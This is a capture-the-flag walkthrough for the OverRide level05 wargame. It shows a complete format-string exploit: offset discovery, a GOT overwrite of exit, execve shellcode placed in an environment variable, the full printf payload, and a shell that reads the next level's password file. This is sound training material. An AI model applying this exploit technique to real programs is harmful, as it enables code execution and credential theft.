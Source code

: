 unprotected `printf` is what we will exploit, let's find the offset:
```bash
level05@OverRide:~$ python -c 'print("AAAA %x %x %x %x %x %x %x %x %x %x")' | ./level05 
aaaa 64 f7fcfac0 f7ec3af9 ffffd6ef ffffd6ee 0 ffffffff ffffd774 f7fdb000 61616161
```
So the offset is 10.

We'll overwrite the got entry of `exit` with the address of our shellcode.
```
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```
> https://github.com/alexandre-hallaine/Rainfall/blob/e45e4fae62fd1a9b2755a1f970f3c035f25a5d05/level5/walkthrough.md

We need to write in `0x80497e0` with the address of something, in our case a shellcode.

```bash
export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```
We'll write and run a C program to find the address of the environment variable:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```
```
level05@OverRide:/tmp$ ./env 
0xffffd82f
```
> That address will be different for you, you'll have to change it in the payload.

`0xffffd82f` in decimal is `4294957103`, that's bigger than INT_MAX therefore we'll have to cut it in half (2 bytes / 2 bytes).

so we need to write `0xffff` and `0xd82f` in the address `0x80497e0` and `0x80497e2` respectively. So `0xffff` in decimal is `65535` and `0xd82f` in decimal is `55343`.
Let's construct our payload logic:
```
0x80497e0 + 0x80497e2 + 55343 (to write into 0x80497e0) + 65535 (to write into 0x80497e2)

Now because we already wrote 55343 bytes, we need to write 65535 - 55343 = 10192 bytes for the second value.
Futhermore, we already wrote 8 bytes for the adresses of the got entry for `exit` therefore 55343 - 8 = 55335 bytes for the first value.

Let's fix that:
0x80497e0 + 0x80497e2 + 55335 (to write into 0x80497e0) + 10192 (to write into 0x80497e2)
```

Our actual payload:
```bash
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55335x%10$hn%10192x%11$hn")'; cat)| ./level05
```

Let's run it:
```bash
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55335x%10$hn%10192x%11$hn")'; cat)| ./level05
[...]
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```